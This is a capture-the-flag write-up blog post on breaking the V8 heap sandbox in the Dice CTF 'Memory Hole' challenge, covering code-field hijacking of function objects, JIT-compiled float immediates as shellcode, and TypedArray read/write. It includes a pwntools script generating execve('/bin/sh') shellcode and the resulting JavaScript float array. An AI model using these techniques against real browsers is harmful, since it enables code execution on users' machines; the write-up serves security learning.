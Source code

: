 ```yaml
---
layout: post
title:  "Dice CTF Memory Hole: Breaking V8 Heap Sandbox"
date:   2022-02-06 00:00:00 +0000
categories: jekyll update
---
```


## 0x00 Introduction

In this challenge, we need to exploit V8 JavaScript engine with heap sandbox enabled. The bug is very simple: an array OOB. We bypass the sandbox by rewriting `code` field of function object, so that we can control the low 32 bits of `rip` register. We write the shellcode as double floating point immediate numbers in function and compile this function using JIT, and set `rip` to address of the shellcode to execute `execve`.

## 0x01 Sandbox Overview

The detail of the sandbox is [here](https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8/edit#), but I will not detail it here. One important protection is that it converts all external pointers to indexes of a lookup table, such as pointer to web assembly RWX page and pointer of `ArrayBuffer` backing store. Thus, we cannot use normal approach to achieve arbitrary read and write.

## 0x02 Approach

### Hijacking Program Counter

If we `%DebugPrint` a function object, we can see there is a `code` field pointing to an object at a `r-x` page. If we type `job` command to that `code` field, we can see many assembly instructions. These are exactly the instructions that will be executed if the function is called.

```
pwndbg> job 0x7fb0804ad55
0x7fb0804ad55: [Function]
 - map: 0x07fb082022c1 <Map(HOLEY_ELEMENTS)> [FastProperties]
 ...
 - code: 0x07fb00004f01 <Code BUILTIN CompileLazy>  <---- code field
 ...
pwndbg> job 0x07fb00004f01
...
Instructions (size = 1112)
0x7fb07e8d6c0     0  55                   push rbp
0x7fb07e8d6c1     1  4889e5               REX.W movq rbp,rsp
...
```

We can verify this by setting a break point at `0x7fb07e8d6c0` and call the function in JavaScript. We can see the breakpoint is triggered in debugger.

Therefore, we can try to modify this field to see if we can hijack `rip` when this JavaScript function is called. We set the `code` field to `0x414141` using `gdb` `set` command, and call this function in JavaScript. We can see a crash at following location:

```assembly
 ► 0x7fb07e8206b    test   dword ptr [rcx + 0x1b], 0x20000000
   0x7fb07e82072    jne    0x7fb07e82081 <0x7fb07e82081>

   0x7fb07e82078    add    rcx, 0x3f
   0x7fb07e8207c    jmp    0x7fb07e8208c <0x7fb07e8208c>
    ↓
   0x7fb07e8208c    jmp    rcx
```

The value of `rcx` is `0x7fb00414141`, which is base address plus the value we have provided.

Looking at the assembly code where the crash occurs, we can conclude that if `dword ptr [rcx + 0x1b] & 0x20000000` is zero, `rip` will be set to `rcx + 0x3f`, which is an easily satisfiable condition.

### Writing Shellcode with Immediate Numbers

Unlike web assembly, whose JIT code is stored in region outside the V8 heap, the normal JavaScript function store the JIT code inside the V8 heap (e.i. the 32-bit region starting with the base address, read [this](https://v8.dev/blog/pointer-compression) for more details). We can see this also by looking at `code` field of a JITed JavaScript function object.

```javascript
const foo = () =>
{
	return [1.1, 2.2, 3.3];
}
%PrepareFunctionForOptimization(foo);
foo();
%OptimizeFunctionOnNextCall(foo);
foo();
%DebugPrint(foo);
readline();
```

```
DebugPrint: 0x29820804ae0d: [Function]
 - map: 0x2982082022c1 <Map(HOLEY_ELEMENTS)> [FastProperties]
 ...
 - code: 0x298200044001 <Code TURBOFAN>
 ...
 
pwndbg> job 0x298200044001
0x298200044001: [Code]
...
Instructions (size = 304)
0x298200044040     0  8b59d0               movl rbx,[rcx-0x30]
...
0x29820004409f    5f  49ba9a9999999999f13f REX.W movq r10,0x3ff199999999999a
0x2982000440a9    69  c4c1f96ec2           vmovq xmm0,r10
0x2982000440ae    6e  c5fb114107           vmovsd [rcx+0x7],xmm0
0x2982000440b3    73  49ba9a99999999990140 REX.W movq r10,0x400199999999999a
0x2982000440bd    7d  c4c1f96ec2           vmovq xmm0,r10
0x2982000440c2    82  c5fb11410f           vmovsd [rcx+0xf],xmm0
0x2982000440c7    87  49ba6666666666660a40 REX.W movq r10,0x400a666666666666
...
```

As we can see in the JIT code, the IEEE representations of `1.1`, `2.2` and `3.3` are compiled to `r-x` page inside the V8 heap region. We can write shellcode using these numbers and connect them with a `jmp` instruction. Since `jmp` instruction consumes 2 bytes, we have 6 bytes for shellcode, which are definitely enough.

Therefore, we can set `rip` to the shellcode using the method mentioned in last subsection. The condition can be easily satisfied by putting a `1.0` at first element of array.

We generate the shellcode with following scripts, and convert the hex numbers into IEEE floating point numbers using this [website](https://www.binaryconvert.com/convert_double.html):

```python
from pwn import *

context(arch='amd64')
jmp = b'\xeb\x0c'
shell = u64(b'/bin/sh\x00')

def make_double(code):
	assert len(code) <= 6
	print(hex(u64(code.ljust(6, b'\x90') + jmp))[2:])

make_double(asm("push %d; pop rax" % (shell >> 0x20)))
make_double(asm("push %d; pop rdx" % (shell % 0x100000000)))
make_double(asm("shl rax, 0x20; xor esi, esi"))
make_double(asm("add rax, rdx; xor edx, edx; push rax"))
code = asm("mov rdi, rsp; push 59; pop rax; syscall")
assert len(code) <= 8
print(hex(u64(code.ljust(8, b'\x90')))[2:])

"""
Output:
ceb580068732f68
ceb5a6e69622f68
cebf63120e0c148
ceb50d231d00148
50f583b6ae78948
"""
```

The final function that can generate the shellcode is shown below:

```javascript
const foo = ()=>
{
	return [1.0,
		1.95538254221075331056310651818E-246,
		1.95606125582421466942709801013E-246,
		1.99957147195425773436923756715E-246,
		1.95337673326740932133292175341E-246,
		2.63486047652296056448306022844E-284];
}
```

Another thing to note is that we must put the immediate numbers as elements of array, instead of using them in other ways like `func(1.1, 2.2)`. The later one will generate JIT code that loads floating point numbers as `HeapNumber`, so that the immediate numbers cannot be compiled into `r-x` page.

Also, JIT compiling `foo` with loop can trigger garbage collection, so that we must compile it before triggering any vulnerability.

### Arbitrary Read and Write within V8 Heap Region using TypedArray

Finally, we need to use the vulnerability to actually implement the idea mentioned above. We found that we can still use `TypedArray` to achieve arbitrary read and write within V8 heap region (e.i. 32-bit region starting with the base address). Therefore, we use array OOB write to rewrite field of `Uint32Array` to achieve this arbitrary read and write. We also use array OOB read to leak addresses of related function objects. The full exploit is [here](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/memory-hole-1984.js).
